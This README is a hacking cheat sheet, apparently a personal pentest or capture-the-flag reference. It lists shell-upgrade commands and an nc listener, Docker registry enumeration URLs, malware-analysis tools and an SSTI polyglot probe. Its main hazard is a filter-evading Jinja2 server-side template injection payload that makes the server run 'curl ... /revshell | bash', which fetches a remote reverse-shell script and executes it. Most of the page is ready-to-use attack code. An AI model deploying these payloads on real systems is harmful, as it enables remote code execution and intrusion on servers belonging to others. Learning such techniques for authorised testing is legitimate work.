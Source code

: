 # OG Hacker Tools
This repository contains tools used for various types of hacking, and basic information about their usage.

## Upgrade Shell

### Option 1
``` 
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

### Option 2
```
rlwrap nc -lvnp 9001
stty raw -echo; fg
```

## Static Binaries

https://github.com/andrew-d/static-binaries

## Enumerate Docker Repository

GET Requests

```
http://WEBSITENAME.COM:5000/v2/_catalog
http://WEBSITENAME.COM:5000/v2/REPOSITORY/NAME/tags/list
```


## Malware Analysis

PECheck - See info on PEHeader

PETree - See info on PeHeader in a GUI

Cuckoo Sandbox - https://cuckoosandbox.org/ 

REMnux - Distro for analysis of malware

## SSTI - Server Side Template Injection

Example in Python:
```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.8.255.244/revshell | bash")|attr("read")()}}
```

Polyglot:
```
Polyglot: ${{<%[%'"}}%\.
```


## Red Team Toolkit

https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development
